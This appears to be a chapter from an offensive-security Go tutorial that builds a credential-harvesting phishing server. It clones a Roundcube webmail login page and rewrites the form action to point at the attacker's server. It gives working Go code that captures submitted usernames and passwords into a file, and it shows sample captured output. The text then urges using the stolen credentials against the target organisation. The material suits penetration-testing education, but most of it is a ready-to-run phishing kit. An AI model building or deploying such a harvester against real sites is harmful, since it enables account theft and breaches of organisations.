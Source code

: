 ## Credential Harvesting
One of the staples of social engineering is the `credential-harvesting attack`. This type of attack captures users’ login 
information to specific websites by getting them to enter their credentials in a cloned version of the original site. The 
attack is useful against organizations that expose a single-factor authentication interface to the internet. Once you have 
a user’s credentials, you can use them to access their account on the actual site. This often leads to an initial breach 
of the organization’s perimeter network.

Go provides a great platform for this type of attack, because it’s quick to stand up new servers, and because it makes 
it easy to configure routing and to parse user-supplied input. You could add many customizations and features to a 
credential-harvesting server, but for this example, let’s stick to the basics.

To begin, you need to clone a site that has a login form. There are a lot of possibilities here. In practice, you’d probably 
want to clone a site in use by the target. For this example, though, you’ll clone a `Roundcube` site. `Roundcube` is an 
open source webmail client that’s not used as often as commercial software, such as Microsoft Exchange, but will allow 
us to illustrate the concepts just as well. You’ll use Docker to run Roundcube, because it makes the process easier.

You can start a Roundcube server of your own by executing the following. If you don’t want to run a Roundcube server, 
then no worries; the exercise source code has a clone of the site. Still, we’re including this for completeness:
```shell script
$ docker run --rm -it -p 127.0.0.1:80:80 robbertkl/roundcube
```

The command starts a Roundcube Docker instance. If you navigate to `http://127.0.0.1:80`, you’ll be presented with a 
login form. Normally, you’d use wget to clone a site and all its requisite files, but Roundcube has JavaScript 
awesomeness that prevents this from working. Instead, you’ll use [Google Chrome Save All Resources plugin](https://chrome.google.com/webstore/detail/save-all-resources/abpdnfjocnmdomablahdcfnoggeeiedb/related) 
to save it. In the exercise folder, you should see a directory structure that looks like below:
```shell script
$ tree
.
+-- main.go
+-- public
   +-- index.html
   +-- index_files
       +-- app.js
       +-- common.js
       +-- jquery-ui-1.10.4.custom.css
       +-- jquery-ui-1.10.4.custom.min.js
       +-- jquery.min.js
       +-- jstz.min.js
       +-- roundcube_logo.png
       +-- styles.css
       +-- ui.js
    index.html
```
The files in the public directory represent the unaltered cloned login site. You’ll need to modify 
the original login form to redirect the entered credentials, sending them to yourself instead of 
the legitimate server. To begin, open [public/index.html](public/index.html) and find the form 
element used to `POST` the login request. It should look something like the following:
```xml
<form name="form" method="post" action="http://127.0.0.1/?_task=login">
```
You need to modify the action attribute of this tag and point it to your server. Change action to `/login`. 
Don’t forget to save it. The line should now look like the following:
```xml
<form name="form" method="post" action="/login">
```

To render the login form correctly and capture a username and password, you’ll first need to serve 
the files in the public directory. Then you’ll need to write a HandleFunc for `/login` to capture the 
username and password. You’ll also want to store the captured credentials in a file with some verbose 
logging.

You can handle all of this in just a few dozen lines of code. [main.go](main.go) shows the program in its 
entirety.
```go
package main

import (
    "net/http"
    "os"
    "time"

    log "github.com/Sirupsen/logrus" ❶
    "github.com/gorilla/mux"
)

func login(w http.ResponseWriter, r *http.Request) {
    log.WithFields(log.Fields{ ❷
        "time":       time.Now().String(),
        "username":   r.FormValue("_user"), ❸
        "password":   r.FormValue("_pass"), ❹
        "user-agent": r.UserAgent(),
        "ip_address": r.RemoteAddr,
    }).Info("login attempt")
    http.Redirect(w, r, "/", 302)
}

func main() {
    fh, err := os.OpenFile("credentials.txt", os.O_CREATE|os.O_APPEND|os.O_WRONLY, 0600) ❺
    if err != nil {
        panic(err)
    }
    defer fh.Close()
    log.SetOutput(fh) ❻
    r := mux.NewRouter()
    r.HandleFunc("/login", login).Methods("POST") ❼
    r.PathPrefix("/").Handler(http.FileServer(http.Dir("public"))) ❽
    log.Fatal(http.ListenAndServe(":8080", r))
}
```

The first thing worth noting is you import [github.com/Sirupsen/logrus](github.com/Sirupsen/logrus) ❶. 
This is a structured logging package that we prefer to use instead of the standard Go log package. 
It provides more configurable logging options for better error handling. To use this package, you’ll 
need to make sure you ran go get beforehand.

Next, you define the `login()` handler function. Hopefully, this pattern looks familiar. Inside this 
function, you use `log.WithFields()` to write out your captured data ❷. You display the current time, 
the user-agent, and IP address of the requester. You also call `FormValue(string)` to capture both 
the username (_user) ❸ and password (_pass) ❹ values that were submitted. You get these values from 
`index.html` and by locating the form input elements for each username and password. Your server 
needs to explicitly align with the names of the fields as they exist in the login form.

The following snippet, extracted from index.html, shows the relevant input items, with the element names 
in bold for clarity:
```xml
<td class="input"><input name="_user" id="rcmloginuser" required="required"
size="40" autocapitalize="off" autocomplete="off" type="text"></td>
<td class="input"><input name="_pass" id="rcmloginpwd" required="required"
size="40" autocapitalize="off" autocomplete="off" type="password"></td>
```

In your `main()` function, you begin by opening a file that’ll be used to store your captured data ❺. 
Then, you use `log.SetOutput(io.Writer)`, passing it the file handle you just created, to configure 
the logging package so that it’ll write its output to that file ❻. Next, you create a new router and 
mount the `login()` handler function ❼.

Prior to starting the server, you do one more thing that may look unfamiliar: you tell your router 
to serve static files from a directory ❽. That way, your Go server explicitly knows where your 
static files—images, JavaScript, HTML—live. Go makes this easy, and provides protections against 
directory traversal attacks. Starting from the inside out, you use `http.Dir(string)` to define the 
directory from which you wish to serve the files. The result of this is passed as input to 
`http.FileServer(FileSystem)`, which creates an `http.Handler` for your directory. You’ll mount this to your 
router by using `PathPrefix(string)`. Using / as a path prefix will match any request that hasn’t already found 
a match. Note that, by default, the handler returned from FileServer does support directory indexing. This could 
leak some information. It’s possible to disable this, but we won’t cover that here.

Finally, as you have before, you start the server. Once you’ve built and executed the code in [main.go](main.go), 
open your web browser and navigate to http://localhost:8080. Try submitting a username and password to the form. 
Then head back to the terminal, exit the program, and view the `credentials.txt` file, shown here:
```shell script
$ go build -o credential_harvester
$ ./credential_harvester
^C
$ cat credentials.txt
INFO[0038] login attempt
ip_address="127.0.0.1:34040" password="p@ssw0rd1!" time="2020-02-13
21:29:37.048572849 -0800 PST" user-agent="Mozilla/5.0 (X11; Ubuntu; Linux x86_64;
rv:51.0) Gecko/20100101 Firefox/51.0" username=bob
```

Look at those logs! You can see that you submitted the username of bob and the password of p@ssw0rd1!. Your 
malicious server successfully handled the form POST request, captured the entered credentials, and saved them to 
a file for offline viewing. As an attacker, you could then attempt to use these credentials against the target 
organization and proceed with further compromise.

In the next section, you’ll work through a variation of this credential-harvesting technique. `Instead of waiting for 
form submission, you’ll create a keylogger to capture keystrokes in real time.`